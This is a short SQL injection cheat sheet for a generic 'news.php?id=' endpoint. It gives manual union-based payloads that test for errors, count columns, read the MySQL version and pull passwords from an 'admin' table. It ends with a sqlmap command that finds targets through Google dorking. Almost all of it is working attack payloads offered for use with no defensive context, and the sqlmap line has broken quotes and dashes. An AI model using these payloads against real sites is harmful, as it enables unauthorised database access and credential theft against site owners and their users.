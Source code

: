 				Identifying SQL Injection
-- end of url put a ' (quote)							http://ip/news.php?id=5'
-- error means website is vulnerable

				Finding Number of columns
-- Increment until you get a error 				http://ip/news.php?id=5 order by 1/*

				Checking Union Fuction
-- union all Number of columns found
-- http://ip/news.php?id=5 union all select 1,2,3/*

				Check MYSQL version
-- http://$ip/news.php?id=5 union all select 1,@@version,3/*

				Getting Column and Table Names
-- Table Names
-- http://ip/news.php?id=5 union all select 1,2,3 from admin/*
-- Column Names
-- http://ip/news.php?id=5 union all select 1,password,3 from admin/*

				SQLMap
-- Automatic SQL injector

-- Use google Dorking
sqlmap -g “payload” –-random-agent -f –-batch –answer=”extending=N,follow=N,keep=N,exploit=n”